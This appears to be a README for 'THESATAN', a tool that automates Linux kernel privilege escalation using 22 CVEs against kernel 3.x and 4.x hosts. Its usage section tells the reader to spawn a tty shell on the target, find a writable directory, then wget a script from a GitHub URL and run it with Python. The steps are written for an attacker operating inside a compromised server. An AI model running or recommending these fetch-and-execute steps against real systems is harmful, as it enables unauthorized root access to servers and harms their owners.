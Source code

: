☣THESATAN - Automation Privilage Escalation for Linux.
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x only.
- Work with python2.7 / python3+ also gcc installed on the machine.

**Usage:**
- Spawn A tty Shell In Terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
**Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

**- Python2.7**
`wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py`
`python thesatan.py`

**- Python3.x**
`wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py`
`python3 thesatan.py`

***- Wait until THESATAN done.***

[![THESATAN](https://i.ibb.co/8r23mBK/download.png "THESATAN")](https://i.ibb.co/8r23mBK/download.png "THESATAN")

[![SATAN](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")
